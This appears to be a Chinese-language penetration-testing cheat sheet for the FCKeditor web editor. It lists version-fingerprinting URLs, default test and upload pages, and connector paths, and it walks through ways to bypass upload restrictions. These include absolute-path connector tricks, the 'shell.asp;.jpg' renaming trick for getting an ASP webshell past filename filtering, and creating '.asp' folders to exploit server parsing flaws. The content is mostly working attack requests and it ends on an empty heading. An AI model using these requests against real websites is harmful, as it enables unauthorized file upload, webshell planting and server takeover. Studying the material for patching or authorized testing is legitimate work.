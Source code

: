 # FCKeditor编辑器渗透思路

### 1.查看FCKeditor版本

```
http://127.0.0.1/fckeditor/editor/dialog/fck_about.html
http://127.0.0.1/FCKeditor/_whatsnew.html
```

### 2.一些FCK默认链接(以asp为例)：

```html
上传测试页面：Fckeditor编辑器默认会存在test.html和uploadtest.html文件，直接访问这些文件可以获取当前文件夹文件名称以及上传文件，有的版本可以直接上传任意文件类型，测试上传地址有：
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html

示例页面：
FCKeditor/_samples/default.html
FCKeditor/_samples/asp/sample01.asp
FCKeditor/_samples/asp/sample02.asp
FCKeditor/_samples/asp/sample03.asp
FCKeditor/_samples/asp/sample04.asp

连接器：
FCKeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx

创建文件夹链接：
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

上传页面：
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=/&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=monyer&Connector=connectors/asp/connector.asp

有时候，网站管理员会把上传页面禁止创建文件夹和上传文件，但是由于网站管理员的配置不当，我们的连接器写绝对路径的话，有时候可以创建文件夹和上传文件
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=http://ww.xxx.com/connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://ww.xxx.com/connectors/asp/connector.asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Flash&Connector=http://ww.xxx.com/connectors/asp/connector.asp
```

### 3.上传绕过

检测文件名中的‘.’修改为‘_’，绕过方式：

1.在上传了诸如*shell.asp;.jpg*的文件后，会自动将文件名改为*shell_asp;.jpg*。可以继续上传同名文件，文件名会变为*shell.asp;(1).jpg*

2.配合web服务器解析漏洞等文件上传漏洞

3.突破建立文件夹：

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp

### 

